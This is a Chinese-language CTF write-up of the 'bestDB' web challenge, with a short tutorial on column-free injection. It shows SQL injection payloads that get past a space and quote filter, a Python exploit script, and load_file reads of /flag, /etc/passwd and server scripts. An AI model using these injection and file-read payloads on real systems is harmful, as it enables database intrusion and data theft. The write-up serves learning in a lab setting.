






队伍名称：err0rcm

<!-- more -->

我是菜鸡，每次比赛都缺点灵性。

就做出来一题，当然准确来说也不算做出来，倒在了最后一步。反思...

本人比较菜，详细写一下，给自己好好总结

## WEB

### bestDB

> 由于电脑崩了:(  bp和网页都没了，只能凭我写了

进去一个查询框，题目名字有db，肯定是注入了。

注释中发现hint

```html
<!-- SELECT * FROM users WHERE id = '$query' OR username = \"$query\" --!>
```

这就建个数据库测试，经测试发现ban了空格和单引号，测试出了payload

`-1"union/**/select/**/1,2,3"`



回显位为1和2，改改以前的脚本，查数据库名

```sql
-1"union/**/select/**/1,database(),3"

# databases==========>users
```

查表名

```sql
-1"union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/database()),3"

# tables==========>f1agdas,users
```

无列名查询(其实直接查就好，本人复习一下之前的知识)

```sql
-1"union/**/select/**/1,(select/**/`2`/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/f1agdas/**/limit/**/1,1)a),3"


# data==========>flag.txt
```


---

#### 无参数查询

例如join进行无列名注入，现在有张表`table`如下

| id   | username | password | question | token |
| ---- | -------- | -------- | -------- | ----- |
| 1    | 1a       | 1b       | 1c       | 1d    |
| 2    | 2a       | 2b       | 2c       | 2d    |
| 3    | 3a       | 3b       | 3c       | 3d    |

正常**在数据库查询**，表名需带反引号，在php端中**并不需要**

```sql
select * from table;
```



假设不知道列名，通过union查询，需猜测列数，这里为5列

```sql
select 1,2,3,4,5 union select * from table;
```



如图所示，列名被替换成了数字，

| 1（派生表列1） | 2（派生表列2）  | 3（派生表列3）  | 4（派生表列4）  | 5（派生表列5） |
| -------------- | --------------- | --------------- | --------------- | -------------- |
| 1（原id）      | 2（原username） | 3（原password） | 4（原question） | 5（原token）   |
| 1              | 1a              | 1b              | 1c              | 1d             |
| 2              | 2a              | 2b              | 2c              | 2d             |
| 3              | 3a              | 3b              | 3c              | 3d             |

我们可以进一步用数字来对应列查询

```sql
select `2` from (select 1,2,3,4,5 union select * from table)a;
```



如果反引号被过滤，同样继续用别名代替

```sql
select c from (select 1,2 as b,3,4 as c,5 as d union select * from table)a;
```



此时派生表如下

| 1（派生表列1） | b（原派生表列2） | 3（派生表列3）  | c（原派生表列4） | d（派生表列5） |
| -------------- | ---------------- | --------------- | ---------------- | -------------- |
| 1（原id）      | 2（原username）  | 3（原password） | 4（原question）  | 5（原token）   |
| 1              | 1a               | 1b              | 1c               | 1d             |
| 2              | 2a               | 2b              | 2c               | 2d             |
| 3              | 3a               | 3b              | 3c               | 3d             |

同时查询多个列

```
select concat(b,0x2d,c) from (select 1,2 as b,3 as c,4,5 union select * from `table`)a;
```

`0x2d`为`-`



---

回到正题，查到`f1agdas`表里有个`flag.txt`，应该是利用`load_file()`函数读取文件，查了下用户

```sql
-1"union/**/select/**/1,user(),3"

# user==========>'root'@'localhost'
```

肯定有权限了，读了`index.php`和`dbConnect.php`，给复现的师傅参考

```php
// index.php
<?php
    error_reporting(0);
    include 'dbConnect.php';
    $query = $_GET['query'];
    $blacklist = [' ', '\'', 'flag', 'delete', 'drop', 'update'];
    foreach ($blacklist as $item){
        if (preg_match("/".$item."/i", $query)){
            die('Forbidden!!!');
        }
    }
    if (isset($_GET['query'])) {
        $sql = "SELECT * FROM users WHERE id = '$query' OR username = \"$query\"";
        $result = $mysqli->query($sql);
        $data = $result->fetch_all();
        echo "<table border='1' width='600px' cellpadding='0' cellspacing='0'  align='center' style='margin-top: 20px; margin-left: 33%'><tr><th>ID</th><th>UserName</th></tr>";
        if (!empty($data)) {
            foreach ($data as $k){
                if (empty($k)){

                }else{
                    echo "<tr><td>{$k[0]}</td><td>{$k[1]}</td></tr>";
                }
            }
        }
        echo "</table>";
    }
?>
```

```php
// dbConnect.php
<?php
$serve = '127.0.0.1';
$username = 'root';
$password = 'root';
$dbname = 'users';
$mysqli = new Mysqli($serve,$username,$password,$dbname);
if($mysqli->connect_error){
    die('connect error:'.$mysqli->connect_errno);
}
$mysqli->set_charset('UTF-8'); // 设置数据库字符集
```

读取根目录下flag，由于ban了`flag`，转十六进制即可

```sql
-1"union/**/select/**/1,hex(load_file(0x2f666c6167)),3"
```

`hex('/flag')=='0x2f666c6167'`

结束了


附上小脚本，虽然没啥用

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 3月 27, 2021
"""
import requests
import time


url = "http://ea4d13de-db0a-41e5-b303-a843bd51a27b.machine.dasctf.com/?query="

def req(payload):
    print(payload)
    res = requests.get(url+payload).content.decode('utf-8')
    if "Forbidden" in res:
        return "Forbidden"
    else:
        try:
            return res.split("<table border='1' width='600px' cellpadding='0' cellspacing='0'  align='center' style='margin-top: 20px; margin-left: 33%'>")[1]
        except:
            return "right"


def database():
    payload = "-1\"union select 1,database(),3\"".replace(" ", "/**/")
    res = req(payload)
    print(res)
# databases==========>users

def table():
    payload = "-1\"union select 1,(select group_concat(table_name) from information_schema.tables where table_schema like database()),3\"".replace(" ", "/**/")
    res = req(payload)
    print(res)
# tables==========>f1agdas,users

def columns():
    payload = "-1\"union select 1,(select `2` from (select 1,2 union select * from f1agdas limit 1,1)a),3\"".replace(" ", "/**/")
    res = req(payload)
    print(res)
# flag.columns==========>flag.txt

def data():
    payload = "-1\"union select 1,hex(load_file(0x2f666c6167)),3\"".replace(" ", "/**/")
    res = req(payload)
    print(res)

if __name__ == "__main__":
    # database()
    # table()
    # columns()
    data()
```


---

以下是本人的碎碎念和反思，师傅们可以跳过惹

经验不足，最后还是没能出这简单题。一方面也是平台的问题，实在太卡了:(

数据库里写的`flag.txt`，最后却在根目录`/flag`。尝试过十六进制`/flag`读取，可能是因为太卡了，没成功就没再试了，以为就是`flag.txt`。盲猜有人拿到注入题直接sqlmap开始跑，导致服务器负载太大，或者说运维去三亚了2333

还尝试了读取一堆无用的东西，以为和 [[网鼎杯 2018]Comment](/article/Buuoj-WEB-Write-up/#Comment) 

```shell
# @@datadir
# /var/lib/mysql/

# @@basedir
# /usr/

# /etc/host
# 127.0.0.1	localhost
# ::1	localhost ip6-localhost ip6-loopback
# fe00::0	ip6-localnet
# ff00::0	ip6-mcastprefix
# ff02::1	ip6-allnodes
# ff02::2	ip6-allrouters
# 192.168.0.114	9fa7a3d75b4f

# /etc/passwd
# root:x:0:0:root:/root:/bin/bash
# daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
# bin:x:2:2:bin:/bin:/usr/sbin/nologin
# sys:x:3:3:sys:/dev:/usr/sbin/nologin
# sync:x:4:65534:sync:/bin:/bin/sync
# games:x:5:60:games:/usr/games:/usr/sbin/nologin
# man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
# lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
# mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
# news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
# uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
# proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
# www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
# backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
# list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
# irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
# gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
# nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
# _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
# mysql:x:101:101:MySQL Server,,,:/var/lib/mysql/:/bin/false
```

没有线索，盲猜读了个`start.sh`

```sh
#!/bin/bash

rm -rf /var/run/mysqld/mysqld.sock.lock
rm -rf /tmp/mysql.sock
usermod -d /var/lib/mysql/ mysql
ln -s /var/lib/mysql/mysql.sock /tmp/mysql.sock
chown -R mysql:mysql /var/lib/mysql

mysqld_safe &

mysql_ready() {
	mysqladmin ping --socket=/run/mysqld/mysqld.sock --user=root --password=root > /dev/null 2>&1
}

while !(mysql_ready)
do
	echo "waiting for mysql ..."
	sleep 3
done

mysql -e "ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'root';flush privileges;" -uroot -proot

if [[ -f /db.sql ]]; then
    mysql -e "source /db.sql" -uroot -proot
    rm -f /db.sql
fi

if [[ -f /flag.sh ]]; then
	source /flag.sh
fi

apache2-foreground
```

然后开始爆`/proc/[id]/fd/[id]`一去不复返了。平台弄卡也有我的一份～

甚至还读了apache配置文件等等等，实在是经验不足，还是本人太菜了2333

做个反思吧，也许哪天羞耻心爆发这段就给我删了。

写给他人明鉴，写给自己反思。